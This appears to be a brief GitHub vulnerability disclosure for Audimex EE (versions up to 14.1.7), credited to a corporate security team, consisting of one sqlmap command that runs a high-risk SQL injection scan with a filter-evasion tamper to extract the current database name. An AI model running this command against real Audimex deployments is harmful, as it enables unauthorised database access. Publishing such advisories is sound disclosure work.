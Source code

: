 # Audimex EE

**This vulnerability was discovered by Henkel Cyber Security team**

## Versions affected: <= 14.1.7

**SQLMap exploit:** sqlmap -r sqli1.txt --level 5 --risk 3 --tamper=space2comment --batch --current-db
![](screenshot.png)
